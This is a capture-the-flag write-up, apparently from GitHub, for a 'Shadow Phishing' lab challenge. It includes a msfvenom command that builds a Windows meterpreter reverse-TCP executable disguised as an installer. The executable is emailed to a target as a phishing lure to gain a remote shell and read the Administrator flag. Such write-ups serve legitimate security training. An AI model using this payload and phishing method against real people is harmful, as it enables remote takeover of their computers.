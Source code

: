 # Shadow Phishing 
## Challenge 
We gained access to the email account of ShadowByte, one of Cipher's trusted operatives. 
This breakthrough will help bring Cipher's location closer to light and foil his plans for the apocalyptic cyber weapon. 
The clock is ticking, though too much time and Cipher will know something is wrong and again disappear into the depths of the darknet. The race against time goes on. 

__Username:__ shadowbyte@darknetmail.corp
__Password:__ ShadowIsTheBest

## Solution
When accessing the ShadowByte email we see this email from Cipher:

![image](https://github.com/user-attachments/assets/3ec7adcc-512f-4f04-b05f-43cdeebb20db)

Cipher told ShadowByte that he needs a exe! Like Ghost Phishing challenge, we could create a reverse TCP shell windows executable. For this we used metasploit for a faster and easy way to create this.

We used this command to generate our executable named silentEdgeInstaller.exe to match what Cipher wanted:

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.23.56.134 LPORT=8080 -f exe -o /home/thm/silentEdgeInstaller.exe
```
After we went to the msfconsole and created our payload and started listenning for incoming connections.
![image](https://github.com/user-attachments/assets/4dc51052-19ab-43cd-b06e-9f1ee0cd2ce4)
![image](https://github.com/user-attachments/assets/7477ad2f-1bb9-42c2-a13b-b27e16c2afde)

After this we sent the executable to Cipher, replying to the email he sent. He didnt responded but we got the connection.

![image](https://github.com/user-attachments/assets/5b418768-d8c7-4390-bacc-81cf93496857)

They want the Administrator flag. So we went to the Administrator desktop and found the flag!

![Untitled design](https://github.com/user-attachments/assets/2ea79b8d-509a-4db2-88af-c6d8b2c938af)
